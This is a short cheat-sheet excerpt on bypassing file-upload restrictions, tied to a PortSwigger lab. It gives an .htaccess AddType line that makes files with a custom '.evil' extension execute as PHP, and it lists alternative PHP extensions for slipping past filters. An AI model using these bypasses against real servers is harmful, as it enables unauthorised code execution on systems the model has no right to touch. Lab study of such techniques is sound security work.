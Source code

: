#### HTACCESS BYPASS

```
#Upload a custom .htaccess file. (https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-4-4c2bf39eeaf)
#This means all files with the extension evil with execute as PHP.
AddType application/x-httpd-php .evil
```

### Extension 

```
#Modify the original extension
eg. phps, pHp, php7, phtml.

```
